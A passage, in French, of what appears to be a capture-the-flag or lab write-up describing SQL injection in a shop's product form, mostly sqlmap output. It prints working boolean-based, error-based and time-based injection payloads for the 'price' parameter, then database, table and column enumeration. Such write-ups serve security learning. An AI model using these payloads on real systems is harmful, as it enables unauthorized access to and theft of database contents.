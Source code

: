 Le champ `name` est donc vulnérable. SQLmap a aussi reporté une injection dans le champ `price` :

```
sqlmap identified the following injection point(s) with a total of 3840 HTTP(s) requests:
---
Parameter: price (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=test&description=yolo&price=5' AND 9985=9985 OR 'TWhh'='VsDY&image=2

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: name=test&description=yolo&price=5' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b767671,(SELECT (ELT(6014=6014,1))),0x716b6a7071,0x78))s), 8446744073709551610, 8446744073709551610))) OR 'cYxg'='UeLZ&image=2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=test&description=yolo&price=5' AND (SELECT 8943 FROM (SELECT(SLEEP(5)))kpPE) OR 'GaLO'='dQCf&image=2
---
```

Avec l'outil, j'ai obtenu le nom de la base de données et ses tables :

```
available databases [2]:
[*] dark_shop
[*] information_schema
```

```
Database: dark_shop
[2 tables]
+----------+
| products |
| users    |
+----------+
```

Seulement dumper les données s'est avéré plus problématique :

```
[13:29:43] [WARNING] unable to retrieve column names for table 'products' in database 'dark_shop'
do you want to use common column existence check? [y/N/q] y
which common columns (wordlist) file do you want to use?
[1] default '/tmp/myvenv/lib/python3.12/site-packages/sqlmap/data/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[13:29:48] [INFO] checking column existence using items from '/tmp/myvenv/lib/python3.12/site-packages/sqlmap/data/txt/common-columns.txt'
[13:29:48] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 5
[13:29:50] [INFO] starting 5 threads
[13:29:50] [INFO] retrieved: id                                                                                                                                                                                                             
[13:29:50] [INFO] retrieved: name                                                                                                                                                                                                           
[13:29:50] [INFO] retrieved: description                                                                                                                                                                                                    
[13:30:14] [INFO] retrieved: price                                                                                                                                                                                                          
```